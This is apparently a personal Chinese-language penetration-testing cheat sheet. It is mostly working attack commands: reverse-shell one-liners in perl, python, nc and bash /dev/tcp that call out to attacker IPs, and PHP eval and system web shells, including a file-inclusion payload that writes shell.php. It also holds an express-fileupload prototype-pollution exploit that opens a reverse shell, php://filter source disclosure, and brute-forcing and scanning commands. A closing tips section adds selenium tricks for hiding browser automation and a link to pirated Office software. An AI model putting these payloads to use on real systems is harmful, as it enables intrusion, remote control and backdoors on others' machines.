 # 渗透

## 反弹shell

#### perl反弹shell

```
perl -e 'use Socket;$i="192.168.64.6";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



#### nc不含-e参数反弹shell

```
nc 10.0.0.1 4444 -e /bin/sh
nc 10.0.0.1 3333 | /bin/bash | nc 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.0.14 5555 >/tmp/f
```

#### python反弹shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.130",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

#### python升级shell

```
python -c "import pty; pty.spawn('/bin/bash')"
```
#### sudo node 反弹shell

```
sudo node -e 'child_process.spawn("/bin/bash", {stdio:[0,1,2]})'
```



## 主机发现

#### arp-scan

```
sudo arp-scan -I eth0 -l
```



当没有arp-scan时

#### arping

```
for i in $(seq 1 254); do sudo arping -c 10.0.0.$i; done
```



#### fping

```
fping -gaq 10.1.1.0/24
```



## 端口扫描

#### namp

```
sudo namp -p22,80 -A 10.1.1.1
```

`-A` 相当于 -sV  -sC  -O 的组合

包含对应用版本的扫描，以及针对这种应用的常见的脚本的扫描

同时会扫描目标的操作系统的版本



## 暴破

### web路径暴破

#### gobuster

一款可以用来暴破web路径和dns等的工具

```
gobuster dir -u http://10.1.1.1 -w baopo_dir.txt -x txt,php,html,jsp
```



### url参数暴破

#### ffuf

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-paramenter-names.txt:PARAM -w baopo_dir.txt:VAL -u http://10.1.1.1/tt.php?PARAM=VAL -fs 0
```

`-fs`是过滤 0 是空内容



ps：

可以用一个已知文件来测试参数和文件包含漏洞（假定存在文件包含漏洞）

假定http://10.1.1.1下存在http://10.1.1.1/index.html页面，也就是存在index.html文件，想要暴破http://10.1.1.1/secret/tt.php的参数，那就用一下这种方式来探测：

```
ffuf -w /usr/.../burp-paramenter-names.txt -u http://10.1.1.1/secret/tt.php?FUZZ=../index.html -fs 0
```

假定存在comd参数

测试后发现http://10.1.1.1/secret/index.php?comd=../index.html可以访问到index.html页面，而http://10.1.1.1/secret/tt.php?comd='其他'  和直接访问/secret/tt.php是相同的



## 其他

#### php url传参执行cmd命令

```php
if(isset($_GET['cmd'])){
    system($_GET['cmd']));
}
```



cyberchef



python升级shell

```
python -c "import pty; pty.spawn('/bin/bash')"
```





#### echo一句话木马 php

```php
\<\?php @eval\(\$_POST\[\'cmd\'\]\)\;\?\>
```





#### express-fileupload漏洞exp

```
import requests
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.65.4/5555 0>&1"'

requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName':(None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
requests.get('http://127.0.0.1:8080')
```



#### seclists

apt install seclists

包含了适用于各种场景的字典



#### 尝试读取php网页的源代码

假定存在这样一个网页：http://asdf.com/evil.php?commond=1

利用php的filter封装器

http://asdf.com/evil.php?commond=php://filter/convert.base64-encode/resource=evil.php

正常读取php文件会将php执行后返回，而无法获取它的源码，而采用base64编码后，就不会执行php代码，而直接返回base64的编码。resource后的文件可以是目标服务器上的任何已知确定存在的文件。



# python

### selenium

#### 打开chrome避免受自动软件控制提示

```python
option = webdriver.ChromeOptions()
option.add_experimental_option('useAutomationExtension', False)
option.add_experimental_option('excludeSwitches', ['enable-automation'])
driver = webdriver.Chrome(options=option)
```

#### 避免运行后关闭chrome

```python
option.add_experimental_option("detach", True)
```



# 杂

**$1$** is MD5
**$2a$** is Blowfish
**$2y$** is Blowfish
**$5$** is SHA-256
**$6$** is SHA-512



file_include传马

![image-20230701162303609](C:/Users/kkk/Pictures/Typora_poto/image-20230701162303609.png)

```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["bgxg"]); ?>'); ?>
```







# 好用app/网站

文件传输：localsend

ssh连接：windterm

微软官方office白嫖：https://www.freedidi.com/6619.html
